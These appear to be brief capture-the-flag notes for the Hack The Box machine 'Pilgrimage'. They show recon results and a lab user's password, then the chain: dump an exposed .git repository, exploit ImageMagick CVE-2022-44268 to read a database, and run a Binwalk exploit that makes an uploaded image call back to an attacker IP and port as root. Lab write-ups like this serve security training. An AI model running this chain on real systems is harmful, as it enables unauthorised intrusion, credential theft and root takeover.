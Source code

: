 | HOST                          | PORT | PROTO | SERVICE | VERSION                |
| ----------------------------- | ---- | ----- | ------- | ---------------------- |
| 10.10.11.219 (pilgrimage.htb) | 22   | tcp   | OpenSSH | 8.4p1 Debian 5+deb11u1 |
| 10.10.11.219 (pilgrimage.htb) | 80   | tcp   | nginx   | 1.18.0                 |


## HEADERS
---
HTTP/1.1 301 Moved Permanently
Server: nginx/1.18.0
Date: Fri, 07 Jul 2023 22:32:51 GMT
Content-Type: text/html
Content-Length: 169
Connection: keep-alive
Location: http://pilgrimage.htb/

---

## DIRECTORIES
---
/.git/

---

## USERS
---
emily : abigchonkyboi123

---

## NOTES
---
* shrinks images, can login/register
* nginx, php
* /.git/ directory
* `git-dumper http://pilgrimage.htb/.git/ dump` dumps the entire repository including all of the source code
* repository contains `magick` binary which is used to convert the image
* `./magick -version` outputs the version `7.1.0-49`
* https://github.com/voidz0r/CVE-2022-44268 clone it
* `/var/db/pilgrimage` sqlite db, found in `dashboard.php`
* `cargo run "/var/db/pilgrimage"`, upload the image
* download the resized image, `identify -verbose imagename`
* copy/paste hex output into cyberchef to get emily's password 
* `pspy64` reveals `/bin/bash /usr/sbin/malwarescan.sh` running as root user
* script uses `binwalk` to scan new files
* `Binwalk v2.3.2`
* https://vulners.com/exploitdb/EDB-ID:51249 `python3 exploit.py image.png 10.10.14.9 1234` 
* download on victim machine and copy to the folder `cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/binwalk_exploit.png` with a listener up


---
